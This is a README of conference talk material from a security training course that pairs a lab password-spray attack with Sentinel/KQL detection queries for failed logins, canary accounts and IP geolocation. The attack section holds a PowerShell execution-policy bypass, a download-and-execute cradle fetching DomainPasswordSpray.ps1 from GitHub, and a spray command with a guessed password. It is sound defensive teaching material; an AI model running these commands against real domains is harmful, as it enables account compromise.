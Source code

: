 # Nebraska Cyber Security Conference 2024 - Talk Slides &; Content

## Attack Detect Defend - Jordan Drysdale & Kent Ickler

This-two part talk is a condensed sample from a 16hr training course Jordan and Kent teach, offered by AntiSyphonTraining.com.

In the two sessions we will give an overview into what we call threat optics: auditing endpoints, centralizing logs and visualizing results.

Each student will leave the class having experienced a penetration test through three distinct perspectives, each building on the previous. These will include adversarial attacks, examination of defensive postures, and wrapped up with various detection methodologies using open-source or free industry threat detection and defenses.




![Attack Detect Defend](Z-images/logo/add.png)
![DIV1]


# Course Pre-requisites
This talk discusses 
- GitHub Account 
- Azure Account 
- DOAZLab.com Azure Deployment
- Detailed Instructions: [ADD-Pre-Reqs](https://github.com/DefensiveOrigins/ADD-PreReqs/blob/main/README.md) 

# Course Information 
&#x1F6C8;  [H0001 - Course Information][H0001]  
&#x1F6C8;  [H0004 - Course Instructors][H0004]  




# Conference Talk Content    

## Attack Detect Defend - Part 1 (~09/17/24 9:00 AM)

### Slides
- [NECSC24 Attack Detect Defend Part 1][necsc241]

### Password Spray

Launch a PowerShell session with no script validation checks. This will be our first run of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack.

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```



### Password Spray

Launch a PowerShell session with no script validation checks. This will be our second iteration of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack. Re-run the attack. 

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```

The next query uses some underlying accounts, preconfigured for easy detections. Boom - failed logins on known accounts? Guess what, easy detect.

```
SecurityEvent
| where EventID == 4625
// remember the deception account naming conventions? 
| where Account contains "DOLabs"
| project TimeGenerated , Activity , Account
```

Luis and Heloise are both canary accounts we know and maintain. Let's check on them.

```
SecurityEvent
| where EventID == 4624 or EventID == 4625 or EventID == 4776
| where Account contains "Heloise" or Account contains "luis"
| project Activity, Account, Computer, IpAddress
```

Ever seen a password spray in real time logs? 

```
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(24h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

Let's look at some source IP addresses.

```
SecurityEvent
| where EventID == 4625 or EventID == 4776
| summarize count() by IpAddress
```

## Attack Detect Defend - Part 2 (~09/17/24 10:00 AM)

### Slides
- [NECSC24 Attack Detect Defend Part 2][necsc242]

### Some additional commands, listed below, can help with attribution. Though, what can we actually do with this info? 

Geo-lookup!!!

```kusto
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = union Event, SecurityEvent
| where EventID in ("4624","4625")
    and AccountType != "Machine"
    and IpAddress != "-" 
| project IpAddress, TimeGenerated, Activity, EventID;
IPs
| evaluate ipv4_lookup(ipdata, IpAddress, network)
| summarize Count = count() by IpAddress, network, country_iso_code, country_name
| order by Count 
```

Let's check some outbound connections...

```kusto
let ipdata = externaldata (network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = SysmonParser
| where EventID == 3
| where dst_ip != '168.63.129.16'
| summarize by UserName, Computer, tostring(process_path), tostring(src_ip), tostring(src_port), tostring(dst_ip), tostring(dst_port),  tostring(network_protocol), TimeGenerated;
IPs
| evaluate ipv4_lookup(ipdata, dst_ip, network)
| summarize Count = count() by Computer, dst_ip, process_path, country_name
| sort by Count
```

How about a quick peek at the usernames landing in our logs?

```kusto
SecurityEvent
| where EventID == 4625
| summarize count() by TargetAccount
| order by count_
```

Let's take a look at arrays associated with the users guessed by specific source IP addresses.

```kusto
union Event, SecurityEvent
| where TimeGenerated < ago(30m)
| where EventID == 4625 or EventID == 4776
| project Account , IpAddress
| summarize USERs = make_set(Account) by IpAddress
| where USERs[1] != ""
```

This is a failed login perspective based on a timechart. We may have already seen this :D.

```kusto
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(4h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

One last look! Here, we have an SSH server exposed to the Internet. At the time of this gig, Thailand was getting after it! 

```kusto
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = Syslog
| where SyslogMessage startswith "Failed Password"
| order by EventTime desc 
| extend User = extract("for(?s)(.*)from",1,SyslogMessage)
| extend IPaddr = extract("(([0-9]{1,3})\\.([0-9]{1,3})\\.([0-9]{1,3})\\.(([0-9]{1,3})))",1,SyslogMessage) 
| project HostName, SyslogMessage, EventTime, IPaddr, User;
IPs
| evaluate ipv4_lookup(ipdata, IPaddr, network)
| summarize Count = count() by IPaddr, network, country_iso_code, country_name
| order by Count 
```



Copyright - All Rights Reserved, Defensive Origins LLC
<!-- DO-MD-FOOTER-END -->

<!-- DO-MD-SHORTCUTS-START -->
[Home]: ./README.md
[evidref]: 9-Others/Cheatsheets/EventIDs.md
[addlogo]:Z-images/logo/add.png
[addlogosm]:Z-images/logo/addsm.png
[addlogo]:../../Z-images/logo/add.png
[addlogosm]:../../Z-images/logo/addsm.png
[WWHF]: https://wildwesthackinfest.com/
[XXXX]: https://www.google.com
[ph_jd]: Z-images/photo/jd1.png
[ph_ki]: Z-images/photo/ki1.png
[H0004]: /9-Others/H0040-Instructors/README.md
[H0001]: /9-Others/H0001/README.md
[DOImage]: Z-images/do_darkbackground.jpg
[DOImage]:Z-images/do_darkbackground.jpg
[DefOrg]: https://defensiveorigins.com/
[Div1]: Z-images/div/div1.png
[Div2]: Z-images/div/div2.png
[DO]: https://www.defensiveorigins.com
[DO1]: Z-images/logo/DO1.png
[DO1sm]: Z-images/logo/DO1sm.png
[DOAboutUs]: https://defensiveorigins.com/about-us
[DOAZLab]: https://www.doazlab.com
[DOAZLab-Github]: https://github.com/DefensiveOrigins/DO-LAB
[1]: https://defensiveorigins.com/
[2]: https://wildwesthackinfest.com/training/
[APT]:https://github.com/DefensiveOrigins/AtomicPurpleTeam
[necsc241]:https://github.com/DefensiveOrigins/NECSC24/blob/main/9-Others/Attack-Detect-Defend-NECSC-part1%20(1).pdf
[necsc242]:https://github.com/DefensiveOrigins/NECSC24/blob/main/9-Others/Attack-Detect-Defend-NECSC-part1%20(2).pdf